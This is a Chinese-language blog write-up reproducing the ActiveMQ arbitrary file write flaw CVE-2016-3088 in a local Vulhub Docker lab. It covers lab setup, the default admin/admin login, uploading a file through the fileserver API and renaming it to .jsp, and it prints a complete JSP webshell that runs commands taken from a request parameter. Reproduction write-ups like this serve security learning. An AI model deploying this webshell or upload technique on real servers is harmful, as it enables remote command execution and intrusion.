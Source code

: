 ```yaml
---
title: ActiveMQ任意文件写入漏洞（CVE-2016-3088）
date: 2018-07-25 06:43:17
tags: Writing
---
```


# 前言： #
学习完Rust的Vector，想着复现一下Vulhub里面的漏洞。然后就踩到了一个坑了。= =简直MMP，原本是想着写CVE-2015-5254的复现的。可复现方法不能用了。所以emmmm....
![](https://ss3.bdstatic.com/70cFv8Sh_Q1YnxGkpoWK1HF6hhy/it/u=886494489,586744998&fm=27&gp=0.jpg)

# 正文： #
首先我们要搭建Vulhub的环境：

	Vulhub漏靶场搭建方法：

	vulhub官网：http://vulhub.org/#/docs/download-vulhub/
	1.安装docker，windows自己去官网下。Linux执行：sudo apt-get install docker.io
	2.安装python和pip:sudo apt-get install python和suao apt-get install python-pip
	3.安装docker-compose:pip install docker-compose
	4.下载Vulhub：git clone https://github.com/vulhub/vulhub.git
	
	安装好之后进入对应的漏洞文件执行：docker-compose up -d
	如果出现：Couldn't connect to Docker daemon at http+xxx的问题有三个解决的方法：
	1.将当前的用户加入dokcer用户组 sudo usermod -aG docker <Username>
	2.在使用docker-compose附加上sudo sudo docker-compose up -d
	3.设置DOCKER_HOST这一个环境变量 export DOCKER_HOST=tcp://loaclhost:4243 设置完成后重新启动docker

漏洞介绍：

	ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。
	
	fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：
	
	其使用率并不高
	文件操作容易出现漏洞
	所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

这里我的是CVE-2016-3088,所以我们要进入对应的目录：

	cd /vulhub/activemq/CVE-2016-3088 

![](https://i.imgur.com/VZ5imMu.png)


	然后执行docker-compose -build 下载漏洞环境
	然后在执行docker-compose up -d 启动


之后我们打开浏览器访问：

	http://127.0.0.1:8161


我们可以看到如下图所示：

![](https://i.imgur.com/uoF1A1z.png)

这个任意文件写入漏洞得要先知道WEB路径。所以我们得登陆后台
默认用户名和密码是：admin/admin，登陆进去后我们要访问

	http://your-ip:8161/admin/test/systemProperties.jsp

查看ActiveMQ的绝对路径

![](https://i.imgur.com/LpIcgNx.png)

绝对路径为：

	/opt/activemq

知道绝对路径之后，我们要进行文件上传。
![](https://i.imgur.com/MyFt8se.png)

注：这里的shell2.txt为shell代码
shell代码如下：

	<%@ page import="java.util.*,java.io.*"%> <% %> 
	<HTML><BODY> <FORM METHOD="GET" NAME="comments" ACTION="">
	<INPUT TYPE="text" NAME="comment"> 
	<INPUT TYPE="submit" VALUE="Send"> 
	</FORM> <pre> 
	<%
	 if ( request.getParameter( "comment" ) != null )
	 {
		 out.println( "Command: " + request.getParameter( "comment" ) + "<BR>" );
		 Process p		= Runtime.getRuntime().exec( request.getParameter( "comment" ) );
		 OutputStream os	= p.getOutputStream();
		 InputStream in		= p.getInputStream();
		 DataInputStream dis	= new DataInputStream( in );
		 String disr		= dis.readLine();
		 while ( disr != null )
		 {
			 out.println( disr ); disr = dis.readLine();
		 }
	 }
	 %>
	 </pre> 
	 </BODY></HTML>

代码来自：[https://github.com/JoyChou93/webshell/blob/master/jsp/cmd.jsp](https://github.com/JoyChou93/webshell/blob/master/jsp/cmd.jsp "JSP shell")

上传：
![](https://i.imgur.com/dSa5cgB.png)

HTTP状态码为204，即为上传成功

然后听过MOVE进行改名为jsp
![](https://i.imgur.com/YdINGV6.png)

然后我们访问http://127.0.0.1:8161/api,就可以看到我们上传的shell文件

![](https://i.imgur.com/asEAY27.png)

执行命令如下：
![](https://i.imgur.com/AI0RAO3.png)

ActiveMQ更多漏洞：[http://www.freebuf.com/column/161188.html](http://www.freebuf.com/column/161188.html "更多漏洞")

转载请声明：来之422926799.github.io
